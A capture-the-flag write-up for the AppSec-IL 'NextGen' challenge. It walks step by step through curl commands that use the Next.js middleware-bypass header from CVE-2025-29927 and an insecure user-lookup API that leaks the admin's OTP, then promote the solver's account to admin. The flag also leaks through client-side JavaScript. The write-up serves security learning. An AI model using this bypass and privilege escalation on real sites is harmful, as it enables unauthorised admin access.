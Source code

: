 
# NextGen

 * Category: API
 * Solved by the JCTF Team

## Description

> Hey everyone! 👋
> 
> I've been working hard on our brand new Next Gen Portal - a sleek, modern enterprise dashboard that's going to revolutionize how our teams collaborate and manage their workflows. The design is clean, the interface is intuitive, and I think you're all going to love it!
> 
> Quick heads up: There's an "Admin Panel" button in there, but don't bother clicking it unless you're actually an admin - the system has proper security controls in place, so regular users won't be able to access it anyway.

A website was attached.

## Solution

During the competition, we solved this with an unintended solution, you can see the details below.

### Intended Solution

We are prompted to register to a website:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/next_gen]
└─$ curl -X POST "https://nextgen.appsecil.ctf.today/api/register" -H "Content-Type: application/json" --cookie cookie.txt --cookie-jar cookie.txt --data-raw '{"username": "user1", "password": "Password1"}'
{"success":true,"message":"Account created successfully","user":{"id":29,"username":"user1","guid":"830f431a-bcb5-4607-a6c5-51f0e4f0fc1e","role":"user"}}
```

We get a GUID. When we visit the website, a call is made to '/api/guid/me' which also returns the GUID together
with some more information:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/next_gen]
└─$ curl -X GET "https://nextgen.appsecil.ctf.today/api/guid/me" -H "Content-Type: application/json" --cookie cookie.txt --cookie-jar cookie.txt
{"user":{"id":29,"username":"user1","guid":"830f431a-bcb5-4607-a6c5-51f0e4f0fc1e","role":"user","otp":"pv#f^$txs0M4"}}
```

There's a big "Admin" button, but when clicking it we receive an "Unauthorized" error. How do we access the Admin panel?

The challenge name hints that this is a Next.js challenge. We can get the Next.js version from
the developer console:

```console
NextJSVersion: window.next?.version
"15.2.2" 
```

This isn't the latest version! And it turns out that this version is vulnerable to 
[CVE-2025-29927](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/): 
An authorization bypass vulnerability.

In a nutshell, sending a specific HTTP header in the request allows bypassing middleware.
Since middleware is often used for authorization, this easily becomes an authorization 
bypass attack.

According to the link above, we need to send something like `"x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware"`.
We can use Burp Suite's *Proxy* feature to intercept all requests to the website, and insert
our custom header (Proxy -> Settings -> HTTP Match and Replace rules -> Add -> 
Type: Request Header, leave Match empty, add header in "Replace", verify with "Test").

Once we enable the proxy and visit `/admin`, we get the following form:

```html
<form class="form-container">
    <div class="form-group">
        <label for="otpToken">Admin OTP Token</label>
        <input id="otpToken" placeholder="Enter 12-character OTP token" required="" type="text" value="" style="font-family: monospace;">
        <small style="color: rgb(102, 102, 102); font-size: 0.8rem;">Enter the admin OTP token required for promotion authorization</small>
    </div>
    <div class="form-group">
        <label for="userGuid">User GUID to Promote</label>
        <input id="userGuid" placeholder="Enter user GUID (e.g., 12345678-1234-1234-1234-123456789abc)" required="" type="text" value="" style="font-family: monospace;">
        <small style="color: rgb(102, 102, 102); font-size: 0.8rem;">Enter the exact GUID of the user you want to promote to admin</small>
    </div>
    <div class="button-group">
        <button type="submit" class="btn btn-primary" style="background: linear-gradient(135deg, rgb(231, 76, 60) 0%, rgb(192, 57, 43) 100%);">⬆️ Promote to Admin</button>
        <button type="button" class="btn btn-secondary">Back to Portal</button>
    </div>
</form>
```

We can use this API to promote a user to admin. Let's do that to ourselves! We already have our own GUID, but where do we 
get the admin's OTP from? Back to the GUID API, it is.

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/next_gen]
└─$ curl -X GET "https://nextgen.appsecil.ctf.today/api/guid/0" -H "Content-Type: application/json" --cookie cookie.txt --cookie-jar cookie.txt
{"error":"User not found"}                                                                                                                                                         
┌──(user@kali3)-[/media/sf_CTFs/appsec/next_gen]
└─$ curl -X GET "https://nextgen.appsecil.ctf.today/api/guid/1" -H "Content-Type: application/json" --cookie cookie.txt --cookie-jar cookie.txt
{"user":{"id":1,"username":"admin","guid":"abe7a399-0e94-429b-af05-cc4d0d082fa8","role":"admin","otp":"X9#mK2@pN7wQ"}} 
```

It looks like the GUID API allows us to read the details for any user, including the admin!

Now we have everything we need to promote ourselves.

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/next_gen]
└─$ curl -X POST "https://nextgen.appsecil.ctf.today/api/promote" -H "Content-Type: application/json" --cookie cookie.txt --cookie-jar cookie.txt -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" --data '{"otpToken": "X9#mK2@pN7wQ", "userGuid": "830f431a-bcb5-4607-a6c5-51f0e4f0fc1e"}'
{"success":true,"message":"User promoted to admin successfully","user":{"username":"user1","guid":"830f431a-bcb5-4607-a6c5-51f0e4f0fc1e","role":"admin"}}
```

We log out and back in again, and we're an admin:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/next_gen]
└─$ curl -X GET "https://nextgen.appsecil.ctf.today/api/guid/me" -H "Content-Type: application/json" --cookie cookie.txt --cookie-jar cookie.txt
{"user":{"id":29,"username":"user1","guid":"830f431a-bcb5-4607-a6c5-51f0e4f0fc1e","role":"admin","otp":"pv#f^$txs0M4"}}
```

Now, we we visit the portal, we get the flag: `AppSec-IL{n3xt_g3n_m1ddl3w4r3_byp455_m45t3r}`.

### Unintended Solution

This the the solution we used during the competition. Just grep for the flag in the sources:

```console
┌──(user@kali3)-[/media/sf_CTFs/appsec/next_gen]
└─$ curl https://nextgen.appsecil.ctf.today/_next/static/chunks/pages/portal-25c6e3000e97b8ba.js -s | grep -o -P '.{0,50}AppSec.{0,50}'
x-2e35cc4f2b8f6ef8",children:["\uD83D\uDEA9 FLAG: AppSec-IL","{","n3xt_g3n_m1ddl3w4r3_byp455_m45t3r","}"]}
```